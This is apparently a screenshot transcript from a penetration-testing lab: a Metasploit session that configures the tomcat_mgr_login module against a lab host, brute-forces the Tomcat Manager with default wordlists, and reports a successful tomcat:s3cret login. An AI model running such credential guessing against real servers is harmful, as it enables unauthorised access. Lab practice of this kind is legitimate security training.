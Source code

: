 ```
   BLANK_PASSWORDS   false                                                   no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                       yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                   no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                   no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                   no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                    no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                                  no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_  no        File containing passwords, one per line
                     mgr_default_pass.txt
   Proxies                                                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.htm
                                                                                       l
   RPORT             8080                                                    yes       The target port (TCP)
   SSL               false                                                   no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                   yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                           yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                       yes       The number of concurrent threads (max one per host)
   USERNAME                                                                  no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_  no        File containing users and passwords separated by space, one pair per line
                     mgr_default_userpass.txt
   USER_AS_PASS      false                                                   no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_  no        File containing users, one per line
                     mgr_default_users.txt
   VERBOSE           true                                                    yes       Whether to print output for all attempts
   VHOST                                                                     no        HTTP server virtual host


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set RHOSTS 10.129.75.157
RHOSTS => 10.129.75.157
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set USER_AS_PASS true
USER_AS_PASS => true
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> run

[!] No active DB -- Credential data will not be saved!
[...]
[+] 10.129.75.157:8080 - Login Successful: tomcat:s3cret
[...]
```